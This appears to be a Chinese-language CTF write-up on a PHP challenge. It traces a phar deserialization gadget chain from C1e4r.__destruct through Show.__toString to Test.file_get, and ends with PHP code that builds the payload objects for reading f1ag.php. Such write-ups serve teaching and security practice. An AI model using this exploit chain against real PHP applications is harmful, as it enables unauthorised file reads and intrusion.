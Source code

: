 ```php
    <input type="submit" name="submit" value="提交"> 
</div> 

</script> 
</body> 
</html>
```

```
/file.php?file=f1ag.php
```

```
hacker!
```

# 思路
`class.php`中有注释明示使用`phar`协议，同时可以通过`upload_file.php`上传文件，于是朝反序列化的方向思考

`Test`类有一个`file_get`方法，目标是调用到`Test.file_get('f1ag.php')`

通过`Test.get('<key>')`调用`Test.file_get('f1ag.php')`，前提是`Test.params`中包含键为`<key>`，值为`f1ag.php`的项

通过`Test.__get('<key>')`魔术方法可以调用到`Test.get('<key>')`

`class.php`中`Show.__toString()`魔术方法存在访问未定义成员的可能，通过令`Show.str['str']`为`Test`的一个实例，`<key>`为`source`来将`f1ag.php`内容编码后读取到`contents`局部变量中

`C1e4r.__destruct`魔术方法存在调用`test`的`__toString()`方法的可能，将`C1e4r.str`设为前面构造的`Show`的实例即可

## 生成`phar`

```php
<?php
class Test
{
	public $file;
    public $params;
    public function __construct()
    {
        $this->params = array('source' => '/var/www/html/f1ag.php');
    }
}

class Show
{
    public $source;
    public $str;
    public function __construct()
    {
        $this->str = array('str' => new Test());
    }
}

class C1e4r
{
    public $test;
    public $str;
    public function __construct()
    {
        $this->str = new Show();
    }
}

$payload = new C1e4r();

```